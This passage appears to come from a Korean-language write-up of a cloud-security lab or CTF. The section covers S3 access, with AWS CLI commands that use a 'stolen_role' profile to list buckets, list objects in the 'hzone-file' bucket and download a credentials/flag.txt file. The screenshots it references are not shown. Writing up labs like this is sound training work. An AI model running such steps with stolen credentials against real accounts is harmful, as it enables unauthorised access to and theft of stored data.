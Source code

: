 ### 4.4 s3 storage 접근

AWS s3(Simple Storage Service) : 각족 이미지나 파일들을 저장할 수 있는 저장소

1. **s3 bucket 나열** : `aws s3 ls --profile stolen_role`

![Untitled](/assets/2022-11-01/Untitled%207.png)

2. **hzone-file 객체(파일) 나열** : `aws s3api list-object --bucket hzone-file --profile stolen_role`

![Untitled](/assets/2022-11-01/Untitled%208.png)

3. **flag.txt 파일 탈취** : `aws s3api get-object --bucket hzone-file --key credentials/flag.txt flag.txt --profile stolen_role`

![Untitled](/assets/2022-11-01/Untitled%209.png)
